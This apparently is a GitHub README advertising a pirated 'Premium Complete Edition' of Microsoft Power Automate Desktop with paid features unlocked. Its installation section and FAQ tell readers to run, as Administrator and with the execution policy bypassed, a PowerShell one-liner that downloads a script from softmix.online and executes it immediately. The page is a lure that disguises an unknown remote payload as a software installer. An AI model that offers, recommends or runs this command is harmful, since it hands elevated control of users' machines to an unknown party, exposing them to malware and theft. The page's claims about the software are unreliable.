

<div align="center">


<br>


# Microsoft Power Automate Desktop Premium Complete Edition
**RPA flows · UI automation · Scheduled tasks**
<br>
**RPA flows · UI automation · Scheduled tasks**
<br>
Premium · Pro · Complete · Windows



**Premium Power Automate Desktop — UI flows, scheduled RPA, desktop automation and cloud connectors all enabled.**

</div>

---

> Automate repetitive desktop workflows — premium RPA modules enabled for business process automation.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🏢 **Enterprise productivity** — Pro Microsoft desktop tools enabled.
📦 **Local install** — Works offline after one-time setup.
🖥️ **Windows native** — Optimized for Windows 10/11 64-bit.
⚙️ **Automation ready** — Business workflows and data tools included.
✨ **Premium modules** — Paid Microsoft features enabled.
📋 **Complete toolkit** — Templates and integrations supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 4 gb free space.
</details>


TAGS
power-automate, power-automate-desktop, microsoft-power-automate, rpa, desktop-automation, workflow-automation, ui-automation, robotic-process-automation, microsoft-automation, business-automation, flow-automation, process-automation, microsoft-flow, automate-desktop, rpa-software
